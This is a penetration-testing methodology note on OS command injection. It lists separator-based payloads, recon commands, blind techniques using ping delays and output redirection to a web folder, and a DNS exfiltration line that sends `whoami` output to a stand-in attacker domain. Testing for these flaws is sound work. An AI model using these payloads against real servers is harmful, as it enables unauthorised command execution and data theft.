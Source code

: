 # Methodology

#COMMANDINJECTION 
#METHODOLOGY 
<hr>

Test request parameters appending commands with command separator characters and look for the application output for any hint that a OS command was executed. Have in mind that all commands are system dependent.

Test the vulnerability as follows:

1. Inject simple commands in parameters with command separators. It may be necessary to URL encode the payload.

`parameter1=value&parameter2=URLEncode(& whoami &)`

## Useful commands

Purpose of command | Linux | Windows
---------------|-------|------------
Name of current user |`whoami`|`whoami`
Operating system | `uname -a` | `ver`
Network configuration | `ifconfig` | `ipconfig /all`
Network connections | `netstat -an` | `netstat -an`
Running processes | `ps -ef` |`tasklist`

<hr>

## Blind command injection

### Time delays

Injected commands can be used to cause time delays in the server response, test request parameters with:

`& ping -c 10 127.0.0.1 &`

And look for delays in the application's responses.

### Redirecting output

Inject a command, then redirect it's output to a file, place it a location in which it can be retrieved with the browser, depending on wether the application serves static resources or not. Use a payload like:

`& whoami > /var/www/static/whoami.txt &`

(the payload above assumes that the web application uses the system location `/var/www/static` to retieve resources and also that the server runs Linux OS)

<hr>

## OAST techniques

### DNS lookup

`& nslookup kgji2ohoyw.web-attacker.com &`

The `nslookup` command causes a DNS lookup for the specified domain. So that he attacker can confirm that the command was executed by the server.

### Data exfiltration
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``

This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command:

`wwwuser.kgji2ohoyw.web-attacker.com`

<hr>

## Ways to inject commands

Useful shell metacharacters to inject commands.

Metacharacters | Unix | Windows
---------------|-------|------------
Name of current user |[x]|[x]
`&`| [x]| [x]
`&&` |[x]|[x]
\| |[x]|[x]
\|\| |[x]|[x]
`;` |[x]|[]
`Newline (0x0a or \n)` |[x]|[]
\`injected command\`  |[x]|[]
$(injected command)  |[x]|[]
